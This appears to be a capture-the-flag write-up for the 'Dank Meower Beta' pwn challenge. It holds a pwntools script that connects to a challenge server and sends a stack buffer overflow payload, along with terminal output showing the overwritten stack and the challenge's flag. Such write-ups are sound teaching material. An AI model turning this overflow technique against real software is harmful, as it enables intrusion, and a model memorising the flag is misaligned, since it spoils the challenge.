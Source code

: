 ```yaml
---
title: Dank Meower Beta
---
```


{% ccb caption:solve.py lang:py gutter1:1-11 %}
from pwn import *
# target = process("./guide") # use this for local testing
target = remote("104.248.97.96", 30001)
for i in range(12):
    target.sendline(b'') # press enter through the buffer overflow guide

target.sendline(p64(0x1) + p32(0x1) + p32(0x1) + p32(0x1) + p32(2147483647)) # payload
target.sendline(b'2') # shop
target.recvline()
target.sendline(b'3') # buy flag
target.interactive()
{% endccb %}

category: pwn

> I want to make a discord bot but I don't know how to use discord.py, so I made a prototype in C.

> Pst! I heard you were looking to get some flags from that flag shop over there, but they were out of stock. Luckily, I think I can help you with that... I've attached the source code of the shop [here](https://gist.github.com/azazazo/de242e67acada5e16be7c3b0745b5525), and you can download the binary [here](https://github.com/azazazo/blahajctf-files/raw/main/dank%20meower%20beta/guide). Contact me at `nc 188.166.197.31 30003` if you're still keen...

This is a simple buffer overflow challenge, with a helpful stack diagram even showing you the layout of the stack itself. The challenge already does a helpful job of explaining the basics of a buffer overflow. However, it seems that many people were stuck on how to give themselves the $2,147,483,647 (`0x7fffffff`) required to get the flag, since that requires one to input `0x7fffffff` as little-endian.

We can send the `0x7fffffff` input with a pwntools script:
```py
from pwn import *
# target = process("./guide") # use this for local testing
target = remote("104.248.97.96", 30001)
for i in range(12):
    target.sendline(b'') # press enter through the buffer overflow guide

target.sendline(p64(0x1) + p32(0x1) + p32(0x1) + p32(0x1) + p32(2147483647)) # payload
target.sendline(b'2') # shop
target.recvline()
target.sendline(b'3') # buy flag
target.interactive()
```

Now let's look at our buffer overflow payload:
{% ccb lang:py gutter1:7 %}
target.sendline(p64(0x1) + p32(0x1) + p32(0x1) + p32(0x1) + p32(2147483647)) # payload
{% endccb %}

{% ccb html:true terminal:true %}
<DIV STYLE="display:inline-block;white-space:pre;font-family:'Cascadia Code','Menlo',monospace;font-size:12px;"><SPAN STYLE="color:#DCDFE4;">lower &gt;---------------------------------------------stack direction----------------------------------------------&gt; higher<BR>  choice                                  </SPAN><SPAN STYLE="color:#61AFEF;">in_</SPAN><SPAN STYLE="color:#98C379;">sto</SPAN><SPAN STYLE="color:#E5C07B;">ck                                                    </SPAN><SPAN STYLE="color:#E06C75;">balance<BR></SPAN><SPAN STYLE="color:#DCDFE4;">┌────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┐<BR>│ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │</SPAN><SPAN STYLE="color:#61AFEF;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│<BR>└────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┘<BR><BR><BR>Current balance: $0<BR>1) Beg for money<BR>2) Visit shop<BR>3) Exit<BR>lower &gt;---------------------------------------------stack direction----------------------------------------------&gt; higher<BR>  choice                                  </SPAN><SPAN STYLE="color:#61AFEF;">in_</SPAN><SPAN STYLE="color:#98C379;">sto</SPAN><SPAN STYLE="color:#E5C07B;">ck                                       </SPAN><SPAN STYLE="color:#DCDFE4;">             </SPAN><SPAN STYLE="color:#E06C75;">balance<BR></SPAN><SPAN STYLE="color:#DCDFE4;">┌────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┐<BR>│ 01 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │</SPAN><SPAN STYLE="color:#61AFEF;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 7f </SPAN><SPAN STYLE="color:#DCDFE4;">│<BR>└────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┘<BR><BR><BR>1) Beg for money<BR>2) Visit shop<BR>3) Exit</SPAN></DIV>
{% endccb %}

We have overwriten `choice` with the value of 1, overwritten the stock counts of all three items with 1, and overwritten the value of balance with `0x7fffffff`

We can then proceed to buy the flag:

{% ccb html:true terminal:true %}
<DIV STYLE="display:inline-block;white-space:pre;font-family:'Cascadia Code','Menlo',monospace;font-size:12px;"><SPAN STYLE="color:#DCDFE4;">lower &gt;---------------------------------------------stack direction----------------------------------------------&gt; higher<BR>  choice                                  </SPAN><SPAN STYLE="color:#61AFEF;">in_</SPAN><SPAN STYLE="color:#98C379;">sto</SPAN><SPAN STYLE="color:#E5C07B;">ck                                       </SPAN><SPAN STYLE="color:#DCDFE4;">             </SPAN><SPAN STYLE="color:#E06C75;">balance<BR></SPAN><SPAN STYLE="color:#DCDFE4;">┌────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┐<BR>│ 01 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │</SPAN><SPAN STYLE="color:#61AFEF;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 7f </SPAN><SPAN STYLE="color:#DCDFE4;">│<BR>└────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┘<BR><BR><BR>1) Beg for money<BR>2) Visit shop<BR>3) Exit<BR>lower &gt;---------------------------------------------stack direction----------------------------------------------&gt; higher<BR>  choice                                  </SPAN><SPAN STYLE="color:#61AFEF;">in_</SPAN><SPAN STYLE="color:#98C379;">sto</SPAN><SPAN STYLE="color:#E5C07B;">ck                                                    </SPAN><SPAN STYLE="color:#E06C75;">balance<BR></SPAN><SPAN STYLE="color:#DCDFE4;">┌────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┐<BR>│ 32 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │</SPAN><SPAN STYLE="color:#61AFEF;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 7f </SPAN><SPAN STYLE="color:#DCDFE4;">│<BR>└────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┘<BR>   </SPAN><SPAN STYLE="color:#56B6C2;">2<BR><BR><BR></SPAN><SPAN STYLE="color:#DCDFE4;">Welcome to the shop! What would you like to buy?<BR>1) Small blahaj (in stock) - $10<BR>2) Big blahaj (in stock) - $30<BR>3) Flag (in stock) - $2,147,483,647<BR></SPAN><SPAN STYLE="color:#E06C75;">$<BR></SPAN><SPAN STYLE="color:#DCDFE4;">lower &gt;---------------------------------------------stack direction----------------------------------------------&gt; higher<BR>  choice                                  </SPAN><SPAN STYLE="color:#61AFEF;">in_</SPAN><SPAN STYLE="color:#98C379;">sto</SPAN><SPAN STYLE="color:#E5C07B;">ck                                                    </SPAN><SPAN STYLE="color:#E06C75;">balance<BR></SPAN><SPAN STYLE="color:#DCDFE4;">┌────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┐<BR>│ 33 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │</SPAN><SPAN STYLE="color:#61AFEF;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 7f </SPAN><SPAN STYLE="color:#DCDFE4;">│<BR>└────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┘<BR>   </SPAN><SPAN STYLE="color:#56B6C2;">3<BR></SPAN><SPAN STYLE="color:#DCDFE4;">lower &gt;---------------------------------------------stack direction----------------------------------------------&gt; higher<BR>  choice                                  </SPAN><SPAN STYLE="color:#61AFEF;">in_</SPAN><SPAN STYLE="color:#98C379;">sto</SPAN><SPAN STYLE="color:#E5C07B;">ck                                                    </SPAN><SPAN STYLE="color:#E06C75;">balance<BR></SPAN><SPAN STYLE="color:#DCDFE4;">┌────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┐<BR>│ 33 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │</SPAN><SPAN STYLE="color:#61AFEF;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│<BR>└────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┘<BR>   </SPAN><SPAN STYLE="color:#56B6C2;">3<BR><BR></SPAN><SPAN STYLE="color:#DCDFE4;">Congratulations! You now have your very own flag!<BR>Here's your flag: blahaj{buFf3r_50Lu710n5_R35157_cH4n935_1n_pH}<BR><BR>Current balance: $0<BR>1) Beg for money<BR>2) Visit shop<BR>3) Exit<BR></SPAN><SPAN STYLE="color:#E06C75;">$</SPAN></DIV>
{% endccb %}
